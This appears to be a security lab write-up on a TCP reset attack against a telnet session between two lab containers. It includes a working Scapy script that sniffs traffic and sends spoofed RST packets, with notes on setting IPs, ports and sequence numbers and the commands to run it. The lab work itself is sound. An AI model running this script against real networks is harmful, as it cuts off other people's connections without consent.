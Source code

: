 ```python
from scapy.all import *

user1 = "10.9.0.6"
user2 = "10.9.0.7"

def spoof_pkt(pkt):
    tcp_packet = pkt[TCP]
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    tcp = TCP(sport=tcp_packet.dport, dport=tcp_packet.sport, flags="R", seq=tcp_packet.ack)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0, iface="br-d359077599dd")

filter = f"tcp and src host {user1} and dst host {user2} and dst port 23"
sniff(filter=filter, prn=spoof_pkt, iface="br-d359077599dd")
```
> The filter is used to check for packets going from user1 to user2 and on the telnet port.
> We sniff and send packets on the correct interface.
> We set the flag to `R` to represent RST packet.

1. We set the source IP to be that of user2, or the destination of the sniffed packet. We set the source port to be the destination port of the sniffed packet, or port 23 at user2. 
	- This basically means we are sending a packet from user2:23 to trick user1 to believe it is coming from the telnet port of user2.

2. The destination port of that spoofed packet will be the source port of the sniffed packet. This is because user1 is communicating via telnet on that port, so for user2 to communicate via telnet to user1, it needs to use that port.

3. We finally set the SEQ number of that spoofed packet to be the ACK of the previous packet to ensure that the packet is accepted by the protocol stack.

Now, if we run this code and type anything in the telnet terminal, the connection is instantly closed. This is because our sniffer is running in the background, and once a packet is sent, the sniffer is activated, triggering the `spoof_pkt` function to send the RST packet.

To prove this via wireshark, we can start a telnet connection from user1 to user2 normally.
```bash
telnet 10.9.0.7
```

We then run the code on the attacker machine.
```bash
python3 rst.py
```

We then type a single character `a` in the telnet terminal in user1 and observe wireshark.
